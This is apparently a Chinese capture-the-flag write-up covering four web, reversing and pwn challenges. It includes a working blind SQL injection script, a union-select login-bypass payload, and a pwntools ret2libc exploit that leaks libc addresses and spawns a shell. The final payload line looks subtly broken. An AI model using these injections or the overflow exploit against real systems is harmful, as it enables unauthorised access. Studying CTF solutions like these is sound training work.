










# 2024-2-18

## Web&Re

### 1



首先我们尝试万能密码发现有过滤



然后Burp查看过滤



接着我们发现输入1后会出现特殊的显示，那么我们就利用盲注来进行注入

```python
import requests
import string

url ='http://b0e518d3-e3b1-4748-894a-4e81e3ece991.node5.buuoj.cn:81/index.php'
flag=''
str = string.printable
for i in range(1,60):
    for j in str:
        print(i,j,flag)
        payload = '(select(ascii(mid(username,{0},1))={1})from(user))'.format(i,ord(j))
        data={"id":payload}
        res = requests.post(url=url, data=data)
        if 'Hello' in res.text:
            flag += j
            print(flag)
        else:
            continue
    print(flag)

```

因为空格被过滤所以我们使用括号来进行绕过，因为告诉了我们表名和列名直接爆破即可



### 2


我们注入两个选项可以发现这次注入点在UserName



测一下过滤发现括号被过滤了，然后有一串字符，用base32解一下再用base64解一下得到select * from user where username = '$name'


然后我们测一下列数发现是三列。接着测试发现admin是在第二列，然后会提示wrong pass，查看源码可以看见第三列是密码的md5，所以我们进行拼接`name=-1' union select 1,'admin','202cb962ac59075b964b07152d234b70' #&pw=123`直接将密码的md5放在第三列就得到flag



### 3



进入主函数直接发现有输入检查函数，进入查看


这几个函数在套娃，每个里面都有一部分



拼起来即可

```python
flag = {'10':112,'13':64,'3':102,'26':114,'20':101,'7':48,'16':95,'11':112,'23':101,'30':117,'0':119,'6':50,'22':115,'31':110,'12':95,'15':100,'8':123,'18':51,'28':95,'21':114,'2':116,'9':99,'32':125,'19':118,'5':48,'14':110,'4':50,'29':102,'17':114,'24':95,'1':99,'25':64,'27':101}
new = ''
for j in range(len(flag)):
    new += chr(flag[str(j)])
print(new)
```

### 4


进入主函数我们可以看见生成了个随机数并传入了sub_804871F函数，我们进入该函数查看



在这个函数里将随机数传入到s中，然后读入数据到buf中与s进行比较，为了绕过比较我们可以设置buf第一个元素为/x00，这样strlen就会为0，又因为read会将读入的字节和最后的/x00都算在内所以不会影响buf[7]，最后返回buf[7]。



我们进入最后一个函数可以看见只要我们将buf[7]的值设置为大于127就可以覆盖返回地址进行攻击

```python
from pwn import *
from LibcSearcher import *

context(os = 'linux', arch = 'amd64', log_level = 'debug')

io = process('pwn')
# io = remote('node4.buuoj.cn',29418)
elf = ELF('./pwn')
write_plt = elf.plt["write"]
write_got = elf.got["write"]
main_addr = 0x08048825
io.sendline('\x00'+'\xff'*7)

payload = b'a' * (0xE7 + 0x04) + p32(write_plt) + p32(main_addr) + p32(1) + p32(write_got) + p32(4)
io.sendline(payload)

write_addr = u32(io.recv(4))

libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
io.sendline('\x00'+'\xff'*7)

payload = b'a' * (0xE7 + 0x04) + p32(system_addr) + p32(b'a'*4)+p32(binsh_addr)

io.sendline(payload)
io.interactive()
```

